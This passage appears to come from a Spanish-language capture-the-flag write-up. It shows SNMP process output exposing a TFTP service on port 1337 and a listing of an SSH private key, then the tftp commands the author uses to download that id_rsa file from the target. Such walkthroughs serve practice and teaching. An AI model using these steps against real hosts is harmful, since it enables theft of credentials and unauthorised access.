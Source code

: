> /snmpwalk.txt

```
|  403:
|	Name: cron
|	Path: /usr/sbin/cron
|	Params: -f
|  768:
|	Name: tftpd
|	Path: /usr/sbin/tftpd
|	Params: -- listen â€” user tftp -- address 0.0.0.0:1337 -- secure /srv/tftp
|  806:
|	Name: mysqld
|	Path: /usr/sbin/mysqld
|	Params: -i 0.0.0.0
```

> /sshfolder.txt

```
sv5@masashi:~/srv/tftp# ls -la
total 20
drwx------  2 sv5 sv5 4096 Oct 15 19:34 .
drwxr-xr-x 27 sv5 sv5 4096 Oct 21 12:37 ..
-rw-------  1 sv5 sv5 2602 Oct 15 19:34 id_rsa
-rw-r--r--  1 sv5 sv5  565 Oct 15 19:34 id_rsa.pub
sv5@masashi:~/srv/tftp#
```

> /security.txt

```
If its a bug then let me know on Twitter @lorde_zw :)
```

Vemos interesante un `id_rsa` con un nombre de usuario y en otro archivo vemos que se esta utilizando un servicio de `tftp` por el puerto `1337`, por lo que haremos lo siguiente...

```shell
sudo apt update
sudo apt install tftpd-hpa
```

```shell
tftp <IP> 1337
```

Info:

```
tftp> ls
?Invalid command
tftp> get id_rsa
tftp> quit
```

Y como sabemos que tenemos un `id_rsa` por algun lado probaremos a descargarnoslo directamente cosa que funcionara, por lo que una vez tengamos el `id_rsa` leeremos lo que contiene...
